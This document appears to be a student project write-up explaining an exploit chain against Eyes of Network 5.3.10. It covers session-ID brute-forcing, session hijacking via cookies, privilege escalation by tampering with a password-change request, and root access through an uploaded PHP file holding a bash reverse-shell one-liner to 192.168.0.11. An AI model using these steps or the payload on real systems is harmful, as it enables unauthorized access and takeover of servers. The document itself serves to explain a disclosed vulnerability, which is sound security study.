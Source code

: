 #  How the Exploit Works
The Eyes of Network has a vulnerability in version 5.10 that has a session ID between 8 and 10 digits. This is done using a brute force method, meaning that you would start searching using session ID 10000000 and iterate up to 9999999999. This can be seen in this code: 

```python
    if rep.content.find(bytes) !=-1:
        a = int(a) + 1
        if int(a) == 99999999999:
            print("No Session_id available ... ")
            break
    else:
        print ("Yepa !")
        print("")
        print('\x1b[6;30;42m' + '[+] session_id FOUND ! '  + a + '\x1b[0m')
        print("")
        break
```
Where rep.content is the response from a GET request using the current iteration of the session ID. From here there are many different exploits available and we ran through the following ones to test these vulnerabilities: 

## Eyes of Network Access without Credentials 
Logging in using the obtained session ID is fairly straight forward. The following image is using the developer tools built into google chrome, you can navigate to the application tab and click on cookies:
![image](https://user-images.githubusercontent.com/71412992/112726764-838b2c80-8ef5-11eb-84cb-9cee09076cd6.png)

You will need to fill in all of these fields and put in the session ID that was obtained. The other fields are filled out based on the type of user the session ID belongs too. This would require trial and error or some inside knowledge of how Eyes of Network user information. 

Once the fields are filled out properly, you refresh the cookies and then the page and you will now be on the main dashboard page of the site with the same access as the user whos session ID you used. 

## Privilege Escalation 
This exploit involves allowing a restricted user to gain access to an admin account. Once a user has logged in, (This can be done using the session ID or with real credentials if the user has access to the site) this user will navigate to the profile tab on the eyes of network portal. Once here they have to option to change their password. The put in and password they would like. 

Next using a proxy interrupter, they interrupt the POST request to change the password:

![image](https://user-images.githubusercontent.com/71412992/112727172-8424c280-8ef7-11eb-8abf-9956d3f645e6.png)

Using the Admin session ID, user_name,user_id, group_id the user is able to change the password of the admin immediately and now has access to that account through regular log in. 

## Root Access to Eyes of Network OS (CentOS)
The last vulnerability that we explored with this exploit was gaining root access on the Eyes of Network operating system. This vulnerability could result in massive loss of data and destruction.  The following code will POST a .php file disguised as a .XML file to a directory on system. A GET request is then called on that file which will cause it to execute: 

```python
postreq=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, verify=False)
rep2=postreq

...

requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies, verify=False)

```
The php file will give a specified IP and Port interactive rights to the OS: 

```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.0.11/9999 0>&1'");
```
Here we can see that the file has been successfully uploaded 

![image](https://user-images.githubusercontent.com/71412992/112731199-3fefed00-8f0c-11eb-8485-9e4b1914000c.png)

During the time the code is running you will listen on the port specified in the code (on the machine that with the specified IP). Once the GET request is run you will be logged in as a user. 
Moving to the /tmp directory you are then able to do a os.execute in order to escape interpreters and gain root access. This can all be seen here: 
![image](https://user-images.githubusercontent.com/71412992/112731497-f7393380-8f0d-11eb-932d-c97a413d1e6a.png)

It should be noted that the ITSM module needs to be installed on Eyes of Network for this portion of the explot to work as this is what allows XML upload. 


## References 

[1] Eyes of Network website https://www.eyesofnetwork.com/en

[2] Exploit Guide and walkthrough  https://ariane.agency/site/index.php/2021/02/23/quand-tu-trouves-une-0day-pendant-un-audit-d/

[3] Explot repository https://github.com/ArianeBlow/exploit-eyesofnetwork5.3.10/blob/main/PoC-BruteForceID-arbitraty-file-upload-RCE-PrivEsc.py

[4] Eyes of Network Community Discussion https://github.com/EyesOfNetworkCommunity/eonweb/issues/87

[5] Eyes of Network Eonweb repository for ITSM https://github.com/EyesOfNetworkCommunity/eonweb

[6] Linux preivileges https://guif.re/linuxeop

[7] Exploit Fix https://github.com/EyesOfNetworkCommunity/eonweb/commit/6d1be13ba36fedfc8cdcbe9c30e99d4e0ca7db1b?fbclid=IwAR0X3qOSDuq1Ke_uAHDjKriPMAfSDWhi4IU6QZWKTuo-Zj4R1sV_TG7hPTo#

[8] NIST Vulnerbility https://nvd.nist.gov/vuln/detail/CVE-2021-27514


